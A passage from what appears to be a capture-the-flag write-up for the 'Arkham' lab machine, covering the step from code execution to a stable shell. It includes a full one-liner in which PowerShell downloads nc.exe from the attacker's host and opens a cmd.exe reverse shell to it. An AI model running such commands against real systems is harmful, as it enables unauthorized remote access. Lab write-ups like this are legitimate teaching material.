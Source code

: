 
## From Code Execution to a Stable Shell

Before we can make the remote machine give us a shell we must give it a shell to execute. This means we need it to download and execute a binary or script from our attacker machine. There are a bunch of different methods we could try here. The easiest method is probably going to be Powershell. 

Firstly, we need to have a reliable payload to serve up that will provide us with a shell when executed. I'm going to try the netcat PE included in Kali like so:

1. Move a copy of the netcat binary to a convenient location `cp /usr/share/windows-binaries/nc.exe .`
2. Spool up a simple web server `python -m SimpleHTTPServer 80`

Now to use powershell to download our binary... We'll output nc.exe to a directory that can be written-to and executed-from: `C:\Windows\System32\spool\drivers\color\` should do the trick.

Powershell makes cmdlets and classes from the .NET Framework available for downloading via HTTP, including:
1. System.Net.WebClient
2. Start-BitsTransfer 
3. Invoke-WebRequest
4. Probably a bunch of other ones too

I eventually found success with the `Invoke-WebRequest` cmdlet!

`python exploit.py 'Powershell Invoke-WebRequest -URI "http://10.10.14.9/nc.exe -OutFile C:\Windows\System32\spool\drivers\color\nc.exe"; C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.14.9 443`

![Image](/assets/img/arkham/exploit_rev_shell.PNG)

---

## User: Alfred to Batman

It seems our shell is running as the user `alfred`; however there's another user on the box named `Batman` who has local administrator privileges. At least we now have access to `user.txt`!
